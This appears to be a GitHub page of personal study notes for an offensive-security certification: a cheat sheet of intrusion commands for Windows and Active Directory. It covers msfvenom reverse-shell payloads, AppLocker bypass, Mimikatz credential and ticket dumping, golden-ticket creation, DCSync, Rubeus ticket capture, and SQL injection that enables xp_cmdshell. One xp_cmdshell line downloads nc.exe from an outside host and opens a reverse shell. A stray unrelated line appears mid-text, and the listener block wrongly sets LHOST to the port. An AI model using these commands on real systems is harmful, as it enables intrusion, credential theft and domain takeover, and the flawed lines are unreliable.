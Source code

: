 # OSEP-Prep-Notes
OSEP Prep Notes



# Kali File Transfer Server

python -m uploadserver 8000

# RDP with xFreeRDP

xfreerdp /u:USERNAME /p:PASSWORD /w:1366 /h:768 /v:SERVER_IP

# VBA Application Script

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.xx.xx LPORT=443 EXITFUNC=thread -f vbapplication

# Listen With Meterpreter

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST OUR_KALI_IP
set LHOST 443
set EXITFUNC thread
run
```

# Post Exploitation - Migrate To Another Process

```
ps
> find a suitable process (like notepad.exe etc.)

execute -H -f notepad
> or execute any process.

migrate PID_OF_PROCESS
> the migration is success.

run post/windows/manage/migrate
> You should try this too.
```

# Post Exploitation - Find Readable and Writable Folders
This program is blocked by group policy. For more information, contact your system administrator.
```
accesschk.exe "PWNED_USERNAME" C:\Windows -wus
> Find a RW folder and use the folder for AppLocker Bypass.

or in "powershell -ep bypass"
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

# Post Exploitation - Find Executable in Folders:
```
icacls C:\Windows\Tasks
> Find a folder that you have the RX permission.
```

# Post Exploitation - Bypass CLM and AppLocker:
```
> Compile Bypass_CLM_And_AppLocker_Dynamically.cs and get the exe. Upload the exe to the machine. Maybe you should encrypt for Antivirus Evasion.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U bu.exe
> Run with suitable installutil.exe to bypass.
```

# Get LAPS Computers, User Passwords - LAPSToolkit.ps1
```
> Get-LAPSComputers with LAPSToolkit.ps1 shows LAPS Computers and passwords if there is any readable.
Get-LAPSComputers
```

# AD - Mimikatz Tickets
```
mimikatz64.exe

privilege::debug // as always :D

sekurlsa::logonpasswords // if there is a password

sekurlsa::tickets //Get tickets readable.
sekurlsa::tickets /export //export tickets readable as Kirbi file.

kerberos::ptt [0;..]-2-0-..-SERVER@USER-DOMAIN.kirbi //pass the ticket in the kirbi file.

lsadump::dcsync /domain:infinity.com /user:infinity\krbtgt // DC SYNC

kerberos::golden /user:h4x /domain:infinity.com /sid:S-1-5-21-3616753307-3538385277-467097740 /krbtgt:120f9d6c433ec5b065fee44cf0f89354 /ptt //create_a_admin_user with golder krbtgt hash.
> After golden ptt is success, you can check with dir \\dc03.domain.com\c$
> If you can list dir,  use PsExec64.exe \\dc03.domain.com cmd and it will generate a shell.

```

# AD - Listen With Rubeus
```
Rubeus.exe monitor /interval:5 /filteruser:DC03$ //listen every 5 seconds for new TGTs for the user.
> If any TGT captured, it prints the base64 value of the ticket.

Rubeus.exe ptt /ticket:BASE64_TICKET // You can import the ticket with Rubeus again.
> You can dcsync after ptt and get the ntlm hash.
```

# AD - PrintSpooler
```
> While monitoring with Rubeus, you can force tickets to come.
SpoolSample.exe DC03 WEB05
> SpoopSample.exe TARGET CAPTURE // You should monitor with Rubeus in the Capture server.

```

# PsExec

```
PsExec64.exe \\dc.domain.com cmd

```

# Bloodhound - Init
```
neo4j console
> Open bloodhound app in Kali after the neo4j started.
>localhost:7474 neo4j:neo4j

```

# MSSQL - xp_cmdshell
```
123' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1-- -
123' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
123' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1-- -
123' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
123' UNION SELECT 1,2,3,4,5; EXEC xp_cmdshell 'ping 192.168.xx.xx'-- -
```
# MSSQL - sqsh and linked sql servers.
```
sqsh -S IP -U username -P password -D dbname
> Connect

EXEC sp_linkedservers;
go
> List linked servers.

select version from openquery("SQL27", 'select @@version as version')
go
> Find version of a linked server.

EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT SQL27;
go
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT SQL27;
go
EXEC ('reconfigure;') AT SQL27;
go
> Allow xp_cmdshell on a linked server remotely.

EXEC ('xp_cmdshell "curl http://192.168.45.172/nc.exe -o nc.exe ; nc.exe -e powershell 192.168.45.172 4444";') AT SQL27;
> Download nc for reverse shell on a linked server.

EXEC ('xp_cmdshell "nc.exe -e powershell 192.168.45.172 4444";') AT SQL27;
> Get a reverse shell after download. Don't forget to listen the port.
```
